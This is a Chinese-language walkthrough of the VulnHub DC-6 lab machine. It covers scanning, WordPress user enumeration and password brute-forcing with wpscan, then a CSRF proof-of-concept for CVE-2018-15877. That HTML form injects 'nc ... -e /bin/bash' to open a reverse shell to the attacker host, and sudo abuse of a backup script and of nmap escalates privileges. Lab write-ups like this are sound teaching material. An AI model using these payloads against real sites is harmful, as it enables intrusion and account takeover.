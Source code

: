 ## DC-6 : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| DC-6          | `192.168.1.106` |

### 扫描端口和版本信息

`nmap -A 192.168.1.106`

![1](../src/vulnhub/dc_6/1.png)

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **WordPress 5.1.1**。设置 *host* 后访问 Web

![3](../src/vulnhub/dc_6/3.png)

经过 OSINT 搜索，知道该版本的 WordPress 存在 **CSRF to RCE** 漏洞 ，不过利用条件是需要管理账户点击利用链接，这显然不太现实，因为该环境是虚拟机环境。不过出题人给了我们明确的提示：

```
OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt That should save you a few years. ;-)
```

既然作者提示制作密码字典，显然需要我们暴力破解，使用 `wpscan` 工具进行暴力破解。在此之前执行下列命令枚举出用户

`wpscan --url http://wordy --enumerate u`

![4](../src/vulnhub/dc_6/4.png)

得到 5 个用户：`admin`、`mark`、`graham`、`sarah` 和 `jens`。目前为止我们知道用户名和密码字典，接下来同样使用 `wpscan `工具来爆破密码

`wpscan --url http://wordy -U users.txt -P passwd.txt`

结果得到一个用户和密码： `mark:helpdesk01`，之后使用该账户登陆到 WordPress

![5](../src/vulnhub/dc_6/5.png)

经过探索，当前用户可以新建页面但却不能发布。不过倒是看到该 WordPress 安装的唯一的插件：*Activity Monitor*

![6](../src/vulnhub/dc_6/6.png)

### Getshell

结果意料之内，该插件存在漏洞，可以进行 CSRF 攻击。我们将该文本复制到当前目录后再重命名为 `getshell.html`，并且需要稍许修改

```html
<html>
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: LydA(c)ric LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy:80/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="localhost | nc 192.168.1.112 6677 -e /bin/bash" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

在 Kali 上开启简易 HTTP 服务器（`python3 -m http.server 8088`），同时监听 **6677** 端口，此外在 Win10 上访问该 HTML

![7](../src/vulnhub/dc_6/7.png) 

因为在 Win10 上登陆了 WordPress，只要我们在浏览器中点击该按钮，就会里面执行代码（提交的表单中的数据是发送给插件里的某一项功能）

![8](../src/vulnhub/dc_6/8.png)

Kali 接收到反弹 shell，并且成功 Getshell。之后在 `/home `目录下执行 ` ls -lhaR` 命令时（递归显示文件夹），结果在 `/home/jens` 下发现 `backups.sh` 脚本文件，在 `/home/mark/stuff` 路径下发现 `things-to-do.txt` 文本文件，并且该文件给出了一个用户名和密码：` graham:GSo7isUM1D4`

![9](../src/vulnhub/dc_6/9.png)

![10](../src/vulnhub/dc_6/10.png)

切换到该用户后查看 *sudo* 权限我们可以知道他可以无密码执行 `jens` 用户的 `backups.sh` 脚本文件

![11](../src/vulnhub/dc_6/11.png)

之后步骤显而易见，执行命令：`echo "/bin/bash" > backups.sh` 后使用 sudo 权限执行该脚本就可以切换到 `jens` 用户

![12](../src/vulnhub/dc_6/12.png)

### 提权

如法炮制，`nmap `工具的 `--script` 参数可以加载文件，填入系统命令到文件就可以执行

![13](../src/vulnhub/dc_6/13.png)

### 总结

1.  `wpscan` 工具使用 API KEY 进行常规扫描：

   `wpscan --url xxx -e --api-token xxx`

2. `wpscan` 工具枚举用户：

   `wpscan --url xxx --enumerate u`